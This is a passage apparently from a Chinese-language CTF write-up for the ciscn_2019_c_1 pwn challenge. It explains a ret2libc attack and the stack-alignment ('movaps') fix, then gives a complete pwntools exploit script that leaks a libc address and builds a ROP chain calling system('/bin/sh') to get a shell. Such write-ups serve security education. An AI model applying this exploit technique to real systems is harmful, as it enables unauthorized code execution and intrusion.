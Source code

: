```
```
综合上述内容，构造payload2为`b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)`

## 3 栈平衡
但是按照上述方法运行exp脚本时，会发现无法拿到shell。用gdb查看程序，发现程序在一条`movaps`指令处发生了段错误。
{{<image src="movaps.png" caption="SIGSEGV">}}
经过查看资料，发现`movaps`指令需要16字节对齐，但是图中`$rsp + 0x40`的值明显不满足对齐。因此，需要让rsp加8来实现栈平衡。实现上，往栈里多写入一个ret指令即可。最终exp如下(exp中libc偏移均为个人环境偏移，需要根据个人和靶场环境来更改)：
```py
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']


sh = process('./ciscn_2019_c_1')
# sh = remote('node4.buuoj.cn', 26578)
elf = ELF('./ciscn_2019_c_1')

# gdb.attach(sh, '''
#     b *0x400ad6 
#     b *0x4009cc
# ''')


def menu(id):
    sh.sendlineafter('choice!\n', str(id))

def main():
    menu(1)
    sh.recvuntil('encrypted\n')
    offset = 0x58
    pop_rdi = 0x400c83
    start = elf.sym['main']
    puts_plt_addr = elf.plt['puts']
    # 0x4006e0
    puts_got_addr = elf.got['puts']
    # 0x602000 + 0x20 = 0x602020
    log.info(f"main: {hex(start)}\nplt: {hex(puts_plt_addr)}\ngot: {hex(puts_got_addr)}")
    payload = b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(start)
    sh.sendline(payload)
    sh.recvuntil('\n\n')
    puts_addr = u64(sh.recvline()[:-1].ljust(8, b'\0'))
    log.info(f"puts address: {hex(puts_addr)}")

    # libc = LibcSearcher('puts', puts_addr)
    libc_base = puts_addr - 0x80970
    # get system addr
    # libc = puts_addr - 0x067970
    log.info(f"libc address: {hex(libc_base)}")
    system_addr = 0x4f420 + libc_base
    str_bin_sh =  0x1b3d88 + libc_base
    # second time
    menu(1)
    sh.recvuntil('encrypted\n')
    ret_gadget = 0x4006b9
    payload2 = b'\0' + b'a' * (offset - 1) + p64(ret_gadget) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)
    sh.sendline(payload2)
    sleep(1)
```